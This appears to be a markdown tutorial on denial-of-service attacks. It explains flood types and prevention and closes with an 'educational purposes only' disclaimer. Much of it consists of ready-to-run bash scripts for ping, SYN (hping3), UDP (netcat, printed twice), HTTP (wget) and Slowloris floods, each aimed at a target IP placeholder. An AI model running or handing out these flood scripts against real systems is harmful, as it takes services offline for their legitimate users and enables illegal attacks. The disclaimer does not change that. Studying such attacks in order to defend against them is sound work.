 **1. Understanding DoS Attacks:**

A Denial of Service (DoS) attack is a malicious attempt to disrupt normal traffic of a targeted server, service, or network by overwhelming it with a flood of traffic, rendering it inaccessible to legitimate users. DoS attacks can range from simple to sophisticated, and they can be launched using various techniques.

**2. How DoS Attacks Work:**

The general principle behind a DoS attack is to flood the target with an overwhelming volume of traffic, thus exhausting its resources such as bandwidth, CPU, memory, or network connections. This prevents the target from responding to legitimate requests, effectively denying service to its intended users.

**3. Types of DoS Attacks:**

   a. **Ping Flood:** Sends an overwhelming number of ICMP Echo Request packets to the target, consuming its bandwidth and potentially crashing the target's network stack.
   
   b. **SYN Flood:** Exploits the TCP handshake process by sending a flood of SYN packets without completing the handshake, exhausting the target's resources and preventing legitimate connections.
   
   c. **UDP Flood:** Sends a large number of UDP packets to random ports on the target, consuming its bandwidth and potentially overwhelming its resources.
   
   d. **HTTP Flood:** Floods the target server with HTTP requests, often generated by a botnet, to exhaust its resources and disrupt its services.
   
   e. **Slowloris:** Opens multiple HTTP connections to the target server and sends partial HTTP requests, keeping the connections open for as long as possible and exhausting server resources.
   
   f. **DNS Amplification:** Exploits misconfigured DNS servers by sending small DNS queries with spoofed source IP addresses to elicit large responses to the target, overwhelming its bandwidth.
   
   g. **NTP Amplification:** Similar to DNS amplification, but exploits vulnerable NTP servers to amplify traffic towards the target.

**4. Testing for DoS Vulnerabilities:**

When testing for DoS vulnerabilities, it's crucial to do so in a controlled environment and with proper authorization. Using specialized tools like Hping, LOIC (Low Orbit Ion Cannon), or tools from the Kali Linux distribution can help simulate DoS attacks and test the resilience of systems against them.

**5. Example Bash Script for Testing:**

```bash
#!/bin/bash

# Simple UDP Flood script using netcat

TARGET_IP="target_ip_address"
TARGET_PORT=12345
MESSAGE="A" # Change this to modify the payload

while true; do
    echo -n "$MESSAGE" | nc -u -w0 $TARGET_IP $TARGET_PORT &
done
```

Replace `target_ip_address` with the IP address of the target and `12345` with the target port.

**6. Prevention Techniques:**

   a. **Firewalls and Intrusion Prevention Systems (IPS):** Configure firewalls and IPS to filter and block malicious traffic.
   
   b. **Rate Limiting:** Implement rate limiting mechanisms to restrict the number of requests from a single source.
   
   c. **Traffic Filtering:** Use traffic filtering techniques to drop packets from known malicious sources or those exhibiting suspicious behavior.
   
   d. **Load Balancers:** Distribute incoming traffic across multiple servers to mitigate the impact of DoS attacks.
   
   e. **Regular Updates and Patching:** Keep systems and software up-to-date with the latest security patches to address known vulnerabilities.
   
   f. **DDoS Protection Services:** Employ DDoS protection services from specialized providers to mitigate large-scale attacks.

**7. Ethical Considerations:**

It's essential to perform DoS testing and mitigation efforts ethically and with proper authorization. Unauthorized DoS attacks against systems can cause significant disruption and legal consequences.


**1. Ping Flood:**
```bash
#!/bin/bash

TARGET_IP="target_ip_address"

while true; do
    ping -c 1 $TARGET_IP >/dev/null &
done
```

**2. SYN Flood:**
```bash
#!/bin/bash

TARGET_IP="target_ip_address"
TARGET_PORT=80

while true; do
    hping3 -c 10000 -d 120 -S -w 64 -p $TARGET_PORT --flood $TARGET_IP
done
```

**3. UDP Flood:**
```bash
#!/bin/bash

TARGET_IP="target_ip_address"
TARGET_PORT=12345
MESSAGE="A" # Change this to modify the payload

while true; do
    echo -n "$MESSAGE" | nc -u -w0 $TARGET_IP $TARGET_PORT &
done
```

**4. HTTP Flood:**
```bash
#!/bin/bash

TARGET_IP="target_ip_address"
TARGET_PORT=80
URI="/"

while true; do
    wget -q -O /dev/null "http://$TARGET_IP$URI" >/dev/null &
done
```

**5. Slowloris:**
```bash
#!/bin/bash

TARGET_IP="target_ip_address"
TARGET_PORT=80
CONNECTIONS=1000

for ((i=0;i<$CONNECTIONS;i++)); do
    (exec 3<>/dev/tcp/$TARGET_IP/$TARGET_PORT && echo -e "GET / HTTP/1.1\nHost: $TARGET_IP\n\n" >&3) &
done
```

**Note:** These scripts are provided for educational purposes only. Do not use them to launch attacks against unauthorized systems. Always obtain proper authorization and ensure compliance with applicable laws and regulations before conducting security testing. Unauthorized DoS attacks are illegal and unethical.
